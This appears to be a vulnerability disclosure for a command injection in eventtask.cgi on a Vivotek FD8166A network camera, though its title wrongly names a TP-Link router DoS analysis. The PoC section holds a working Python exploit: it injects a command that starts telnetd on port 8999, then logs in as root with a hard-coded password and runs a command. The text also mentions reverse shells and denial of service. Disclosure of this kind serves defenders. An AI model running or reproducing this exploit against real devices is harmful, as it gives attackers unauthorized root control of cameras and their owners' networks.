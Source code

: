 # Tplink-wr886n-v6-cloud_config-device_legality_illegal-dos-analysis

Vender：vivotek  
Firmware version: FD8166A-VVTK-0204j 
Hardware version: FD8166A  
Exploit Author: ljzjsc  
Vendor Homepage: <https://www.vivotek.com/>  
Hardware Link: <https://www.vivotek.com/fd8166a>  

## Vul detail
eventtask.cgi is a cgi interface that can be accessed in the device and can be accessed directly in the browser.

![1706496909343](./vivotek-FD8166A-eventtask-analysis.assets/1706496909343.png)

There is a command injection function in eventtask.cgi. The attacker only needs to construct the response payload to execute the response function to achieve the effect of arbitrary execution of the command.

![1706497925920](./vivotek-FD8166A-eventtask-analysis.assets/1706497925920.png)

We construct the corresponding payload to achieve rebound shell, denial of service and other attacks.

![1706500233048](./vivotek-FD8166A-eventtask-analysis.assets/1706500233048.png)

## PoC
```python
import requests
import telnetlib

url = "http://192.168.1.107/cgi-bin/admin/eventtask.cgi?method=exec&file=telnetd%20-p%208999"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Authorization": "Basic cm9vdDpsaTEwMTdydWk=",
    "Connection": "close",
    "Cookie": "webptzmode=continuous; activatedmode=digital; g_mode=1; viewsizemode=100; 4x3=false",
    "Upgrade-Insecure-Requests": "1"
}

response = requests.get(url, headers=headers)
print(response.status_code)
print(response.text)

tn = telnetlib.Telnet("192.168.1.107", 8999)
tn.read_until(b"login: ")
tn.write(b"root\n")
tn.read_until(b"Password: ")
tn.write(b"li1017rui\n")
response = tn.read_until(b"#")
tn.write(b"id\n")
response = tn.read_until(b"#")
print(response.decode('utf-8'))
```

<video src="./vivotek-FD8166A-eventtask-analysis.assets/video.mp4"></video>
